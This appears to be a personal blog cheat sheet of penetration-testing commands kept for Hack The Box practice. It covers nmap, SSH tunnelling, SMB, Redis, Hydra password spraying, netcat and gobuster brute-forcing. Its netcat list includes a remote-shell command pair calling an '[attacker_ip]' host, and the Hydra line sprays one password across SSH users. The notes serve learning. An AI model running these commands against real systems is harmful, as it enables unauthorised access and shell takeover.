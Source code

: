 ```yaml
---
title: "Useful Notes"
date: 2024-08-25T13:38:26Z
draft: false
author: "James"
tags: 
  - "Security"
  - "Penetration-Testing"
  - "Linux"
summary: "A page dedicated to quick and easy commands used."
---
```


## Introduction

I have decided to start progressing on Hack The Box while I have some free time to sharpen my skills and knowledge. 

## Useful commands 

#### Nmap

```nmap -F IPADDRESS``` - Fast scan the top 100 ports
```nmap -sV IPADDRESS``` - Service version detection
```nmap -O IPADDRESS``` - Operating system detection 
```nmap -sT IPADDRESS```- TCP Scan
```nmap -p- IPADDRESS```- Scan all ports

#### SSH

SSH Tunnelling to establish a connection with the remote ssh server and will listen for connections on the local port 1234 and forward to remote server on port 22. We can then access the services on the remote machine as if they were running locally. 
```ssh -L 1234:localhost:22 user@{target_IP}```

#### SMB

```smbclient -L``` is used to list file shares.

```smbclient -L \\IPADDRESS -U anonymous```
  Use tag "-W" to specify the workgroup.

Use ```get``` & ```put``` retrospecifively to download/upload files.

#### Redis
```redis-cli -u redis://host:port``` - To connect
```redis-cli -h``` - To get hostname

Once connected, run the ```info``` command to get the information about the system. 

Run the ```select``` command to enter the database.

#### Samba

```smbmap -H 10.10.10.3``` - Find shares

#### FTP

The below result from an Nmap scan shows the server allows anonymous logins:

```ftp-anon: Anonymous FTP login allowed (FTP code 230)```

#### Passwords

We can use Hydra to iterate through usernames and use the same password for each user via SSH:

```hydra -L users.txt -p 'PASSWORD' {target_IP} ssh```

#### Network Sockets

The command `ss -tlnp` is used to display detailed information about network sockets on a Linux system. Here's a breakdown of what each option means:

- **`ss`**: This is the command used to display network socket information (similar to `netstat`, but faster and more powerful).
  
- **`-t`**: Show **TCP** sockets only.
  
- **`-l`**: Show only **listening** sockets (i.e., sockets that are waiting for incoming connections, such as servers).

- **`-n`**: Show numerical addresses and ports instead of resolving hostnames or service names. For example, it shows `127.0.0.1` instead of `localhost`, and `80` instead of `http`.

- **`-p`**: Show the **process** using the socket, along with the PID (Process ID) and the name of the program.


#### Netcat

Netcat (or nc) is a versatile networking tool that is often referred to as the "Swiss Army knife" of networking. It is used for a variety of tasks involving network connections
```bash
1. Basic Syntax
nc [options] [hostname] [port]

2. Start a TCP Server
nc -l -p 1234

3. Connect to a TCP Server
nc [hostname] 1234

4. File Transfer
On the server (receiving):
nc -l -p 1234 > received_file
On the client (sending):
nc [server_ip] 1234 < file_to_send

5. Port Scanning
nc -zv [hostname] [port_range]
Example:
nc -zv localhost 20-80

6. Simple Chat
Listener:
nc -l -p 1234
Connector:
nc [hostname] 1234

7. UDP Mode
Send UDP packets:
nc -u [hostname] 1234
Listen for UDP packets:
nc -u -l -p 1234

8. Remote Shell
Listener (attacker's machine):
nc -l -p 4444 -e /bin/bash
Client (target's machine):
nc [attacker_ip] 4444

9. Check if a Port is Open
nc -zv [hostname] [port]
Example:
nc -zv example.com 80

10. Set a Timeout
nc -w 3 [hostname] 1234


Here is the entire content in one text box for you to copy to a blog post:

```markdown
## Gobuster Usage Notes

`gobuster` is a tool used for brute-forcing URIs (directories, files), DNS subdomains, virtual hosts, and more. Below are the common use cases and examples.

### Installation

```bash
sudo apt install gobuster
```

or

```bash
go install github.com/OJ/gobuster/v3@latest
```

#### Gobuster - Directory/File Brute-Force (HTTP/HTTPS)

```bash
gobuster dir -u http://example.com -w /path/to/wordlist.txt
```

- `dir`: Directory/file brute-forcing mode
- `-u`: Target URL
- `-w`: Path to the wordlist

#### DNS Subdomain Brute-Force

```bash
gobuster dns -d example.com -w /path/to/wordlist.txt
```

- `dns`: DNS subdomain brute-forcing mode
- `-d`: Domain to target

#### Virtual Host Brute-Force

```bash
gobuster vhost -u http://example.com -w /path/to/wordlist.txt
```

- `vhost`: Virtual host brute-forcing mode
- `-u`: Target URL

### Additional Flags

- `-t`: Number of concurrent threads (default: 10)
- `-o`: Output results to a file
- `-x`: File extensions to check (e.g., `.php`, `.html`)
- `-s`: HTTP response status codes to consider valid (e.g., `200,301`)

### Example Command with Output

```bash
gobuster dir -u http://example.com -w /usr/share/wordlists/dirb/common.txt -t 50 -o results.txt
```

This will brute-force directories using 50 threads and save the results to `results.txt`.
